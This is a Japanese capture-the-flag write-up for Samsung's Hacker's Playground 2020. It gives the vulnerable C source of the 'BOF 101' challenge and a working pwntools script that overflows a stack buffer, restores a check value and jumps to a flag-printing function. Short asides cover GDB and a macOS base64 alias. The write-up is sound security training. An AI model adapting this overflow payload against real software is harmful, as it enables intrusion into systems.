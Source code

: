 ```yaml
---
title: "Hacker's Playground Writeup (Samsung Security Tech Forum 2020)"
date: 2020-08-18T15:00:00+09:00
lastmod: 2020-08-18T15:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fhackers_playground_2020%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://playground.sstf.site/](https://playground.sstf.site/)

<br />
Samsung主催のCTFっぽいですね。

平日火曜日に6時間だけやっていて、たまたま年休を取っていたので参加できました。

<br />
275 points で、最終順位は 90位 でした。

<img src="https://captureamerica.github.io/writeups/img/hackers_playground_2020_Score.png" alt="hackers_playground_2020_Score.png">

<br />
といっても、最初の方のチャレンジにはTutorial（ほぼwriteup）が付いていて、その通りにやれば 275 points 取れます。

見たところ、43位〜114位はみんな 275 points でした。:)

<br />
以下、チャレンジです。

<img src="https://captureamerica.github.io/writeups/img/hackers_playground_2020_Challenges1.png" alt="hackers_playground_2020_Challenges1.png">
<br />
<img src="https://captureamerica.github.io/writeups/img/hackers_playground_2020_Challenges2.png" alt="hackers_playground_2020_Challenges2.png">

<br />

Tutorialが付いていたやつしか解いてないし、Tutorialががほぼwriteupなので、別途自分がwriteupを書くほどのことでもないんですが、Pwnのチャレンジだけ記録に残しておきます。

<u><b>いちおう、これはTutorialを見ずに解きました。</b></u>


<br /><br />
## [Pwn]: BOF 101 (50 points)
- - -
### Challenge
> You might have heard about BOF.
<br />
It's the most common vulnerability in executable binaries.
<br /><br />
The binary is running at:
<br />
nc bof101.sstf.site 1337.
<br /><br />
Can you smash it?
<br />
Just execute printflag() function and get the flag!


Attachment:

- bof101 (64bit ELF)

- bof101.c

ソースの中身

```C
#include <stdio.h>
//#include <fcntl.h>
//#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void printflag(){ 
	char buf[32];
	FILE* fp = fopen("/flag", "r"); 
	fread(buf, 1, 32, fp);
	fclose(fp);
	printf("%s", buf);
	fflush(stdout);
}

int main() {
	int check=0xdeadbeef;
	char name[140];
	printf("printflag()'s addr: %p\n", &printflag);
	printf("What is your name?\n: ");
	fflush(stdout);
	scanf("%s", name);	
	if (check != 0xdeadbeef){
		printf("[Warning!] BOF detected!\n");
		fflush(stdout);
		exit(0);
	}
	return 0;
}
```



<br />

### Solution
とりあえず、2回アクセスしてみて2回とも同じアドレスが取れたので、スクリプトで読み取る処理はせず、スクリプトの中でそのままアドレスを書いてます。

<pre>
$ nc bof101.sstf.site 1337
printflag()'s addr: 0x555555555229
What is your name?
: aaa

$ nc bof101.sstf.site 1337
printflag()'s addr: 0x555555555229
What is your name?
: bbb
</pre>


<br />

```Python
#!/usr/bin/env python
from pwn import *

s = remote('bof101.sstf.site', 1337)

payload = b'A' * 140
payload += p64(0xdeadbeef)
payload += b'A' * 4 # 16 byte alignment
payload += p64(0x555555555229)

s.recvline()
s.recvline()
s.sendlineafter(": ", payload)
print(s.recvall())
```

<br />

Flag: `SCTF{n0w_U_R_B0F_3xpEr7}`




<br /><br />
<br /><br />
## おまけ１
- - -
まずは、Tutorialに書いてあった中から、勉強になったことをPickup。

GDBのオプションです。

{{< highlight sh "linenos=table,hl_lines=4" >}}
> x/s $rcx
"Rev3ngineering1"...

> set print element 0
> x/s $rcx
"Rev3ngineering1sc00l!"
{{< / highlight >}}

<br />
使ったことのないオプションだったので、ググって以下の説明を見つけました。

[https://stackoverflow.com/questions/233328/how-do-i-print-the-full-value-of-a-long-string-in-gdb](https://stackoverflow.com/questions/233328/how-do-i-print-the-full-value-of-a-long-string-in-gdb)

> Set a limit on how many elements of an array GDB will print. If GDB is printing a large array, it stops printing after it has printed the number of elements set by the set print elements command. This limit also applies to the display of strings. When GDB starts, this limit is set to 200. Setting number-of-elements to zero means that the printing is unlimited.

へぇ〜。

.gdbinitに書いておけばいいのかな。


<br /><br />
<br /><br />
## おまけ２
- - -
最近、Macbook Airを購入して、またMacをメインに使い出しました。

チャレンジのひとつの中に、`base64 -i -d` というのが出てきて、`base64 -d`がMacだと`base64 -D`になるのは知ってたんですが、`-i`オプションもMacだと別の意味になるようです。

いちいちアタマを切り替えるのが面倒なので、Gnu版base64をMacで使えないか調べてみたら、`gbase64` というのがすでにMacに入っていたことが判明。

<br />
aliasを設定しておきました。

<pre>
alias base64='gbase64'
</pre>

<br />
これで、ハッピー。



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
